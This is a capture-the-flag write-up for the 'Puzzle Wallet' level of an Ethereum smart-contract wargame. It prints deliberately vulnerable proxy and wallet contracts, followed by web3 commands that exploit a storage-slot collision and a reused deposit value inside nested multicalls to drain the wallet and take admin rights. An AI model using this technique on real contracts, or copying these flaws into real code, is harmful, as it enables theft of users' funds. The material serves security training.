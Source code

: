 # Level 24 - Puzzle Wallet

### Objective

The objective of this level is as follows:

1. Nowadays, paying for DeFi operations is impossible, fact.
2. A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.
3. They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.
4. Little did they know, their lunch money was at risk…
5. You'll need to hijack this wallet to become the admin of the proxy.

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
pragma experimental ABIEncoderV2;

import "@openzeppelin/contracts/math/SafeMath.sol";
import "@openzeppelin/contracts/proxy/UpgradeableProxy.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) public {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    using SafeMath for uint256;
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] = balances[msg.sender].add(msg.value);
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] = balances[msg.sender].sub(value);
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

### Solution

Solution inspired by [Naveen](https://dev.to/nvn):

To make `player == owner`:

```
functionSignature = {
    name: 'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_newAdmin'
        }
    ]
}

params = [player]

data = web3.eth.abi.encodeFunctionCall(functionSignature, params)

await web3.eth.sendTransaction({from: player, to: instance, data})
```

Whitelist player:

```
await contract.addToWhitelist(player)
```

Get funciton encodings:

```
// deposit() method
depositData = await contract.methods["deposit()"].request().then(v => v.data)

// multicall() method with param of deposit function call signature
multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)
```

Make `player == admin`:

```
await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})

await contract.execute(player, toWei('0.002'), 0x0)

await contract.setMaxBalance(player)
```

Done!
